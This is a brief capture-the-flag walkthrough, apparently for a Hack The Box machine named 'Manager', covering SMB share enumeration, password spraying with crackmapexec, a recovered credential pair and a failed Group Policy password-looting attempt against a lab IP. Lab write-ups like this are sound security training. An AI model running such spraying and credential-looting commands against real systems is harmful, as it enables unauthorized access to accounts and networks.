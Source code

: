try guest acces : `smbmap -u guest -H "10.10.11.236”`

![smbguest](assets/Manager/smb-guest.png)

Try Passwords Brute force / passwords spraying: `crackmapexec smb 10.10.11.236 -u user.lst -p` 

![spraying](assets//Manager/pass-sparying.png)

Found credentials : **Operator:operator**

Enumerate the smb with new creds : `smbmap -u "Operator" -p "operator" -H "10.10.11.236”`

```bash
[*] Detected 1 hosts serving SMB
[*] Established 1 SMB session(s)                                
                                                                                                    
[+] IP: 10.10.11.236:445        Name: 10.10.11.236        
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share 
        SYSVOL                                                  READ ONLY       Logon server share
```

Try to extract remotely parse `.xml` files and loot for passwords: `Get-GPPPassword "manager.htb"/"Operator":"operator"@"10.10.11.236”`

**Don’t Work !** 
